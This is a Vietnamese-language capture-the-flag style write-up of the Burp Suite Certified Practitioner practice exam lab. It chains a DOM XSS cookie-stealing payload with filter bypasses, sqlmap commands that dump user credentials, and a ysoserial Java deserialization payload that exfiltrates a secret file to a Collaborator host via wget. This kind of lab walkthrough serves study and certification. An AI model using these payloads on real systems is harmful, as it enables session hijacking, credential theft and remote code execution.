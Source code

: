 # Write-up for Burp Suite Certified Practitioner Practice Exam

Author: `Antoine Nguyen`

### 1. Khai thác DOM-based XSS tại chức năng "Search the blog":

##### a) Initial reconnaissance:

- Sử dụng DOM Invader để inject canary vào form, ta phát hiện được các source và sink như sau:

![image-20211213222734274](https://user-images.githubusercontent.com/61876488/146169208-1eb515aa-faf9-4919-9085-d5ada6a2e7e0.png)

- Trong đó có sink chứa hàm `eval` có thể chạy được script js, còn source nằm ở hàm `location.search` sẽ đọc nội dung phần querystring của url hiện tại (`?query=xss2%27"<>`), click vào stack trace để xem sink và source nằm ở đâu trong js code:

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);  // sink
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);				 // source
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        ...
}

```

- `window.location.search` có thể lấy data tùy ý mà ta nhập vào từ url parameter `query`, sau đó khi `xhr.send()` thì hàm `xhr.onreadystatechange` sẽ chạy, dẫn đến biến `searchResultsObj` được khởi tạo và được gán bằng response của server khi request `"GET", path + window.location.search` được gửi. Vấn đề là chúng ta chưa biết `path` là gì. Tìm trong HTTP History của Burp Suite ta có:

![image-20211213224603286](https://user-images.githubusercontent.com/61876488/146169329-819e5586-94fa-4eed-b0f6-be11cde765f5.png)

- Như vậy `path=="/search"` và  `searchTerm=="xss2'"<>"`, chính là canary mà ta truyền vào. Response ở hình trên ở dạng JSON và do các kí tự truyền vào có `"` nên định dạng JSON bị lỗi, do đó mục `..search results for..` không hiện ra gì. Chúng ta cần phải escape nó.

##### b) Escape and bypass:

- Dùng payload `"+alert(1)}//` để escape JSON.

![image-20211213225524527](https://user-images.githubusercontent.com/61876488/146169366-6806c816-fc92-4168-a9b7-2d46d778e568.png)

- Do web app lại blacklist`document.cookie` nên ta chỉ có thể `alert(1)`:

![image-20211213225726052](https://user-images.githubusercontent.com/61876488/146169426-e2946d9c-0bb5-4c07-8276-4cbbf917eaa1.png)

- Nhưng ta vẫn có thể bypass bằng cách dùng `document["cookie"]`:

![image-20211213225835470](https://user-images.githubusercontent.com/61876488/146169487-b96dde85-3d72-415b-983a-b1346d8b70ad.png)

- Web app còn blacklist cả dấu `.`, vốn hay được dùng trong url. Thử payload `"+alert(' . ')}//`:

![image-20211213230124046](https://user-images.githubusercontent.com/61876488/146169515-c176c379-172f-48b5-abbf-ce883c7251fb.png)

- Nhưng chúng ta có thể url encode các dấu chấm thành `%2e` (CVE-2021-41773). Thử payload `"+(location="https://www%2ew3schools%2ecom/?a=1")}//`:

![image-20211213230633913](https://user-images.githubusercontent.com/61876488/146169608-19a26787-cde1-4ea3-9d6d-4f881f86396b.png)

##### 3) Exploit:

- Sử dụng exploit server của bài lab, tại `body` sử dụng script mẫu như sau:

```html
<script>
location='https://<lab id>.web-security-academy.net/?query=%22%2B%28location%3D%22https%3A%2F%2Fexploit-<exloit server id>%252eweb-security-academy%252enet%2F%2F%3Fcookie%3D%22%2Bdocument%5B%22cookie%22%5D%29%7D%2F%2F';
</script>
```

- Sau khi bấm `deliver exploit to victim` rồi `view exploit` thì vào `access log` kiểm tra:

![image-20211213231136699](https://user-images.githubusercontent.com/61876488/146169678-f5827df6-b5a3-4952-a324-75fee4c8e571.png)

- Check access log chúng ta thấy một cookie "lạ", không phải nằm trên client side của chúng ta mà có lẽ là của victim (được highlight bên dưới):

![image-20211213231618624](https://user-images.githubusercontent.com/61876488/146169729-99373e9e-3644-4a92-9249-2608900db836.png)

- Copy cookie này rồi thay thế cho cookie hiện tại thì ta chiếm được account `carlos`:

![image-20211213231748164](https://user-images.githubusercontent.com/61876488/146169768-44764d26-ca61-41c6-9fc2-c5e99478596f.png)

### 2) Khai thác SQL Injection tại chức năng "Advanced search": 

##### a) Initial reconnaissance:

- Sau khi login vào thì chúng ta unlock được chức năng "Advanced search":
- Thử search tại API `GET /advanced_search` với url parameter `sort-by=DATE'`thì server bị lỗi SQL:

![image-20211213233700777](https://user-images.githubusercontent.com/61876488/146169796-d3fef678-23b1-477a-88d8-39081c9ab40a.png)

- Như vậy web app chắc chắn bị SQLi, đồng thời ta biết được database mà nó đang sử dụng là **PostgreSQL**. Thử payload `(case when (1=0) then 2 else 1/0 end)` để comfirm có thể khai thác boolean-based SQLi.

##### b) SQLmap fuzzing:

- Sử dụng SQLmap với endpoint và url parameter đã biết bị dính SQLi là `sort-by` (đánh dấu bằng dấu `*`): 

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump
```

![image-20211213233720286](https://user-images.githubusercontent.com/61876488/146169833-e2bd1f02-c3e3-4a65-92e3-ad0a09598ee2.png)

![image-20211214095628881](https://user-images.githubusercontent.com/61876488/146169883-85286f24-35bf-4baa-a63d-546af660baf4.png)

![image-20211214102141470](https://user-images.githubusercontent.com/61876488/146169901-54b0bbf4-51e2-4aeb-9458-2c0a89140653.png)

- Sau khi enumerate bằng SQLmap thì có được current database là `public`, có 1 table "khả nghi" là `users`, thử dump table này thì thấy nó có 2 column là `username` và `password`. Do đó tiếp tục dùng lệnh SQLmap sau để dump 2 column kia:

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump -D public -T users -C username,password
```

![image-20211214105324719](https://user-images.githubusercontent.com/61876488/146170101-864359b4-3ba1-4978-802b-ab779924814b.png)

- Lấy được `administrator | cjbnksa6guo0y4a96o04 `, account có role admin do đó chúng ta có thể unlock được chức năng "Admin panel":

![image-20211214105637238](https://user-images.githubusercontent.com/61876488/146224830-e474e8e4-a211-459c-a10c-44ec2df9de03.png)

### 3) Khai thác java deserialization tại chức năng "Admin panel":

##### a) Initial reconnaissance:

- Để ý thấy khi vào chức năng này thì tại client side chúng ta được cấp cho một cookie là "admin-prefs":

![image-20211214112246704](https://user-images.githubusercontent.com/61876488/146225794-949ab1da-f48f-4e6e-8a63-e46948664405.png)

- Nếu thay đổi cookie này tùy ý thì:

![image-20211214233523121](https://user-images.githubusercontent.com/61876488/146225553-4287adcd-3c42-4038-85b8-048ccddc96c7.png)

- Decode này bằng **Decoder** của Burp Suite ta biết được quá trình encode của cookie sau khi serialize là : gzip encode -->  base64 encode --> url encode:

![image-20211214123526651](https://user-images.githubusercontent.com/61876488/146225700-4171ece7-00d7-48dd-b133-50f181eb12af.png)

- Trong plain text trên có đoạn `lab.display.admin.prefs.JavaPrefsCookieStrategy`. Nhiều khả năng web app này sẽ bị dính vuln **java deserialization** tại cookie  `admin-prefs` này.

##### b) Create pre-built gadget chain with ysoserial and exploit:

- Sau khi thử tạo các gadget chain bằng tool [ysoserial](https://github.com/frohoff/ysoserial) theo sample như sau:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar <payload types> '[command]' | gzip -f | base64 -w0
```

![image-20211215154314051](https://user-images.githubusercontent.com/61876488/146225935-e7c9ecfa-cedb-4c1d-9fa9-3260917195bf.png)

- Ta phát hiện có một payload type có thể dùng được là **CommonsCollections6** vì nó trả về status code 200, trong khi các payload type khác đều trả về status code 500 và **ClassNotFoundException** (các payload type khác có thể có exception khác, dùng phương pháp thử rồi loại suy thông qua exeption để tìm ra payload type phù hợp). 

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections4 'curl https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211214173728534](https://user-images.githubusercontent.com/61876488/146226035-87a069d0-3b5e-4680-9637-6f0500294d1e.png)

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'curl -X POST -d Hello https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211215153848790](https://user-images.githubusercontent.com/61876488/146226107-3b70e47b-2c23-4cc4-80aa-c30510c693ba.png)

![image-20211215163312473](https://user-images.githubusercontent.com/61876488/146226178-34d29412-1f4a-4eb0-849c-abd37701766c.png)

- Điều này có nghĩa là gadget chain tạo với payload type **CommonsCollections6** là hợp lệ và chúng ta có thể RCE thông qua gadget chain này. tạo payload như trong hình:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'wget --post-file /home/carlos/secret c2ft9nahenbthexwc6hd0c9m4da3ys.burpcollaborator.net' | gzip -f | base64 -w0
```

![image-20211215154458664](https://user-images.githubusercontent.com/61876488/146226291-b748f2ca-8558-4c6b-9c03-a6a7dfa096ab.png)

- Lưu ý trước khi cho payload trên vào cookie `admin-prefs` thì phải URL encode nó:

![image-20211215154844486](https://user-images.githubusercontent.com/61876488/146226418-fe236de8-9ac5-4541-adbc-5642f32865fd.png)

- Cuối cùng thì chúng ta gửi request và poll Burp Collaborator Client và đợi kết quả:

![image-20211215155200561](https://user-images.githubusercontent.com/61876488/146226480-ec4e59b6-9818-43e8-a26e-78997c167d14.png)

###### Lưu ý: Cách khai thác Java Deserialize ở trên dựa vào bài lab của PortSwigger là [Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons).

##### 4) Kết quả Practice Exam BSCP của mình:

![image-20211215155436265](https://user-images.githubusercontent.com/61876488/146226623-dd2ddd99-5b72-425c-b055-2d6316414c69.png)

![image-20211215155444115](https://user-images.githubusercontent.com/61876488/146226686-18428acd-1f33-4f19-9910-8a5afc716e1f.png)

![image-20211215165432252](https://user-images.githubusercontent.com/61876488/146226741-573b1d60-6ff6-479f-8c87-db0085b8ebcc.png)
